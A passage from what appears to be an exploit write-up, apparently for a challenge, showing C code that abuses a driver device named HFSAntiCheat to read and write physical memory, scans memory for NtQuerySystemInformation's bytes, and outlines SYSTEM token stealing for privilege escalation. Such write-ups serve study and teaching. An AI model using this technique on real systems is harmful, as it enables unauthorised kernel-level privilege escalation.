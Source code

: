 ```c
NTSTATUS WritePhysmem(HANDLE device, int64_t PhysAddr, size_t Length, char* buf) {
  Req request = { .len = Length, .addr = buf, .phys_addr = PhysAddr };
  return DeviceIoControl(device, 0x220008, &request, sizeof(request), NULL, 0, NULL, NULL);
}
int main(int argc, char** argv) {
  HANDLE device = CreateFileW(L"\\\\.\\HFSAntiCheat", GENERIC_READ|GENERIC_WRITE, 0, 0, OPEN_EXISTING, FILE_ATTRIBUTE_SYSTEM, 0);
  if (device == INVALID_HANDLE_VALUE) { 
    printf_s("[x] Could not open device: 0x%x\n", GetLastError());
    return FALSE;
  }
}
```

I then grabbed a chunk of bytes from the start of `NTQSI` (taking care not to include any bytes that might be relocated at runtime, making my search inaccurate), and made a simple loop to scan for it.

```c
const  char search[] = {
  0x40, 0x53, 0x48, 0x83, 0xec, 0x30, 0x45, 0x33, 0xd2, 0x45, 0x8b, 0xd8, 0x66, 0x44, 0x89, 0x54,
  0x24, 0x40, 0x48, 0x8b, 0xda, 0x83, 0xf9, 0x4a, 0x7c, 0x24, 0x83, 0xf9, 0x53, 0x7d, 0x1f, 0x45,
  0x8b, 0xc2, 0x4c, 0x89, 0x4c, 0x24, 0x28, 0x49, 0x8b, 0xd2, 0x4c, 0x8b, 0xcb, 0x44, 0x89, 0x5c,
  0x24, 0x20
};

// ...
size_t i;
// scan only the 4gb of memory assigned to the VM
for (i = 0; i < 0xFFFFFFFF; i += 1024) {
  char buf[sizeof(search)] = { 0 };
  ReadPhysmem(device, i, sizeof(search), buf);
  // NTQSI is located on a page boundary in the kernel image,
  // so we can just check the start of each page
  if (memcmp(buf, search, sizeof(search)) == 0) {
    printf("found at %p\n", (void*)i);
    break; 
  }
 } 
 if (i >= 0xFFFFFFFF) { return  -1; }
```

I was able to verify that this locates the function reliably in about 1 second of searching (useful, as there was a 5 second timeout on the exploit).
I now had to replace the code with my payload.

## Token Stealing and Shellcoding

In my previous Write-What-Where exploit, the exploit was as follows
- Leak the address of an `_EPROCESS` belonging to SYSTEM
- Copy  the `Token` field, which contains a pointer to the security context
- Walk the process linked list to find our own `_EPROCESS` by checking the PID repeatedly
- Overwrite our `Token` field with that of SYSTEM in order to escalate privileges
